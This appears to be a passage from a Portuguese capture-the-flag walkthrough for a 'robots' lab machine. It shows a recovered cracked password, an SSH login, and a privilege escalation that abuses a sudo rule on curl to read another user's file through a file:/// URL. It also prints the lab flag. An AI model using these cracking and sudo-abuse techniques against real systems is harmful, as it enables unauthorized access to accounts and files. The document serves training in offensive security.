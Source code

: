 ```bash
python brute-force-pass.py rgiskard dfb35334bf2a1338fa40e5fbb4ae4753

python brute-force-pass.py rgiskard dfb35334bf2a1338fa40e5fbb4ae4753
Encontrado!
→ Entrada: rgiskard2209
→ Primeiro hash: b246f21ff68cae9503ed6d18edd32dae
→ Hash duplo:    dfb35334bf2a1338fa40e5fbb4ae4753
```

Agora temos o usuário e senha do rgiskard. Vamos logar via SSH:

```bash
ssh rgiskard@robots.thm
rgiskard@robots.thm's password:
rgiskard@ubuntu-jammy:~$ id
uid=1002(rgiskard) gid=1002(rgiskard) groups=1002(rgiskard)
```

## Elevação de privilégios para o usuário dolivaw

Verificando os privilégios do usuário rgiskard:

```bash
rgiskard@ubuntu-jammy:~$ sudo -l
[sudo] password for rgiskard:
Matching Defaults entries for rgiskard on ubuntu-jammy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User rgiskard may run the following commands on ubuntu-jammy:
    (dolivaw) /usr/bin/curl 127.0.0.1/*
```

Vemos que podemos rodar o curl em 127.0.0.1/\* com o usuário `dolivaw`.

Aqui podemos fazer um trick para pegar o user.txt que está no /home do `dolivaw`.

Podemos usar o `cURL` e passar o parametro `file:` para obter qualquer arquivo que o
`dolivaw` possa ler.

```bash
rgiskard@ubuntu-jammy:~$ sudo -u dolivaw /usr/bin/curl 127.0.0.1/ file:///home/dolivaw/user.txt
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.61 (Debian) Server at 127.0.0.1 Port 80</address>
</body></html>
THM{9b17d3c3e86c944c868c57b5a7fa07d8}
```
